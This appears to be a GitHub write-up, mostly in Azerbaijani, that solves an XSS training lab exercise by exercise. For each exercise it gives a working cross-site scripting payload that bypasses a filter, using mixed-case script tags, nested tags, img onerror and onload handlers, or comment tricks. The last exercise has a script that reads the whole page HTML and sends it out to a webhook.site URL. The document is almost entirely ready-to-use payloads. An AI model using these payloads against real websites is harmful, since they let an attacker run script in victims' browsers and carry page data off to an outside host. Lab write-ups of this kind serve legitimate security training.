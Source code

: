 Exercise 1 – A Truly Disruptive Startup
saytın axtarış bölməsində bu kodu(<script>success()</script>) yazırıq və axtar düyməsinə klikləyirik.
sayt xss hücumundan müdafiə olunmadığı üçün hücumumuz uğurlu olacaq.

Exercise 2 – No Script Allowed
ikinci tapşırıqda server yazdığımız kodun başındakı scripti təmizləyir.Serveri aldatmağımız üçün belə bir kod yazmağımız kifayətdir.</script><script>success()</script>


Exercise 3 – One More Time, Like You Mean It
üçüncü tapşırıqda yazdığımız kodun hər iki tərəfindəki script teqini silir.<scrscriptipt>alert(1)</scrscriptipt> 


Exercise 4 – An Open-and-Shut Case
server daxil olunan koddakı script teglərini təmizləyir.Yazılışda biraz dəyişiklik etsək müdafiəni aşa bilərik.<ScRiPt>success()</sCriPt>        

Exercise 5 – Time to Mix Things Up
5-ci tapşırıqda server daxil olunan script və SCRİPT teqlərini təmizləyir.<ScRiPt>success()</sCriPt>

Exercise 6 – A Picture is Worth a Thousand Words
6-cı tapşırıqda server script teqini yazılışından asılı olmayaraq təmizlədiyindən biz başqa teqlərdən istifadə etməliyik.        <image src =q onerror=success()>

Exercise 7 – Between a Rock And a Hard Place
        <button onClick="success()">Submit</button>
Exercise 8 – Angle of Death
        <!--<img src="--><img src=x onerror=javascript:success()//">
Exercise 10 – In the Wrong Place at the Wrong Time
        "<img src=/ onerror="success()" />
Exercise 11 – You Can't Win 'em All
        "" onerror="success()"
Exercise 12 – When All is Said and Done
        ' onload=success()
Exercise 14 – Here Today and Gone Tomorrow
        http://caloogle.xyz:4120/search?q=%27+onload%3D%27success%28%29%27
Exercise 15 – The Early Bird Catches the Worm
        </script> <img src=/ onerror=success() /> <script>
Exercise 16 – Tying Up Loose Ends
        <<<///scrip<<//script>>t>>><img src =q onerror=success()>
Exercise 17 – Take a Page Out of Their Book
	function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
